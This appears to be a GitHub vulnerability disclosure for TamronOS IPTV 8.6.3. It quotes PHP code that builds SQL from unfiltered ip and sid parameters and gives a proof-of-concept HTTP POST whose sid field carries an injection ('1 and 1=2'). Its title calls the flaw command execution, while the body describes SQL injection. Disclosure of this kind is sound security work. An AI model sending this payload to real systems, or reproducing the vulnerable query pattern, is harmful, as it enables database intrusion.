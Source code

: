 # Tamronos-iptv-update_server_status-sql

The TamronOS IPTV system has command execution vulnerabilities

official website：http://www.tamronos.com/


## Vulnerability Details

The `update_server_status()` method in the `iptv/Controllers/ApkapiController.php` file was directly passed into the `updateserver()` method without filtering the `$ip`, `$sid`, and `$netstream` parameters passed in by the user, resulting in SQL injection.
![update_server_status](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/update_server_status.jpg)




updateserver() Code:
```
	function updateserver($ip,$sid,$netstream)
	{
		$sql = "select * from videoserver where ip='".$ip."' and sid=".$sid;
		$this->query($sql);
        if(!is_numeric($netstream))
            $netstream = 0;
        $sql = "update videoserver set netstream=".$netstream." where ip='".$ip."' and sid=".$sid;
        //error_log($sql);
        $this->query($sql);
	}
```
![updateserver](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/updateserver.jpg)


## Recurrence vulnerability
Test version : `TamronOS IPTV 8.6.3`

request data
```
POST /api/update_server_status.ecgi HTTP/1.1
Host: 172.16.49.166
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Referer: http://172.16.49.166/manage
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
sec-ch-ua-platform: "macOS"
sec-ch-ua: "Google Chrome";v="111", "Chromium";v="111", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

ip=1&sid=1 and 1=2
```
![testok2](https://github.com/yuxianzi/Tamronos-iptv-CVE/blob/main/png/testok2.jpg)
